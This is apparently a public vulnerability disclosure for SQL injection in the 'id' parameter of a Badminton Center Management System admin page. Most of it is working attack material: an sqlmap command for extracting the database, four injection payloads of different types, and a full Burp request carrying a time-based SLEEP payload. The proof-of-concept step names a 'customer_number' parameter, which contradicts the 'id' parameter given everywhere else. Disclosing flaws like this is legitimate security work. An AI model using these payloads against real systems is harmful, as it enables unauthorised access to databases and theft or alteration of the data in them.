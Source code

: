 1. Description:
----------------------

Badminton Center Management System allows SQL Injection via parameter 'id' in
/bcms/admin/court_rentals/update_status.php. Exploiting this issue could allow an attacker to compromise
the application, access or modify data, or exploit latent vulnerabilities
in the underlying database.


2. Proof of Concept:
----------------------

In Burpsuite intercept the request from the affected page with
'customer_number' parameter and save it like poc.txt Then run SQLmap to extract the
data from the database:

sqlmap.py -r poc.txt --dbms=mysql


3. Example payloads:
----------------------

Parameter: id (GET)

    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=test' AND 7374=(SELECT (CASE WHEN (7374=7374) THEN 7374 ELSE (SELECT 6961 UNION SELECT 8511) END))-- -&status=3

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=test' AND EXTRACTVALUE(8482,CONCAT(0x5c,0x71627a6b71,(SELECT (ELT(8482=8482,1))),0x71626a6271))-- ukNa&status=3

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: id=test' AND 9267=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C)-- JYkT&status=3

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: id=test' UNION ALL SELECT CONCAT(0x71627a6b71,0x76455372796b6b59767845715272496c626e7a4b6b5a4c664f48736258654b6359576c52474b5356,0x71626a6271),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&status=3

4. Burpsuite request:
----------------------

GET /bcms/admin/court_rentals/update_status.php?id=2%20%2b%20((SELECT%201%20FROM%20(SELECT%20SLEEP(25))A))%2f*%27XOR(((SELECT%201%20FROM%20(SELECT%20SLEEP(25))A)))OR%27%7c%22XOR(((SELECT%201%20FROM%20(SELECT%20SLEEP(25))A)))OR%22*%2f%20%2f*%2042ef7f74-0853-4e23-9722-b42223e2b1b9%20*%2f&status=3 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=0oviirpbcg8rf511ik98trenv1
Referer: http://localhost/bcms/admin/court_rentals/update_status.php?id=2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.0 Safari/537.36
